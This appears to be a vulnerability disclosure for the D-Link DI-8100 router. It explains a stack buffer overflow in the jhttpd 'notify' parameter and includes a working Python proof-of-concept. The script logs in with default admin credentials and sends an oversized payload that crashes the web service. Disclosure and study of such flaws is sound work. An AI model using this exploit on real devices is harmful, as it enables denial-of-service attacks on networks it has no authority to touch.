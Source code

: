 # The D-Link DI-8100 contains a binary vulnerability

**Vulnerability Description**
DI-8100 is a wireless broadband router designed by D-Link for small and medium-sized network environments. A binary vulnerability exists in its `jhttpd` program, which can be exploited by attackers to cause a denial of service (DoS).
Firmware download link: [https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100](https://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100)

**Code Audit**
In the `arp_sys_asp` function within the `jhttpd` binary, the `notify` parameter is controllable (the function `httpd_get_parm` is used to handle GET request parameters).

![](https://github.com/xubeining/Cve_report/blob/main/Dlink1.png)
It leads to a stack overflow because `sprintf` copies the data into `v16`, a stack buffer.

![](https://github.com/xubeining/Cve_report/blob/main/Dlink2.png)

**POC**
```
import requests

# 创建一个会话对象
session = requests.session()

# 请求登录的 URL 和头部信息
login_url = "http://192.168.0.1/login.cgi"
login_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Content-Type": "application/x-www-form-urlencoded",
    "Origin": "http://192.168.0.1",
    "Connection": "close",
    "Referer": "http://192.168.0.1/login.html",
    "Upgrade-Insecure-Requests": "1"
}
login_data = {
    "user": "admin",
    "password": "admin"
}

# POST 请求进行登录
login_response = session.post(login_url, headers=login_headers, data=login_data)

# 构造 payload 触发缓冲区溢出
payload = b'a' * 0x200
command_url = f"http://192.168.0.1/arp_sys.asp?notify={payload}"

# 构造执行命令的请求头
command_headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1"
}

# GET 请求触发漏洞
response = session.get(command_url, headers=command_headers)

# 打印返回内容
print(response.text)
```
**Verification**
![](https://github.com/xubeining/Cve_report/blob/main/Dlink3.png)
After sending the PoC, the web service crashes.
![](https://github.com/xubeining/Cve_report/blob/main/Dlink4.png)
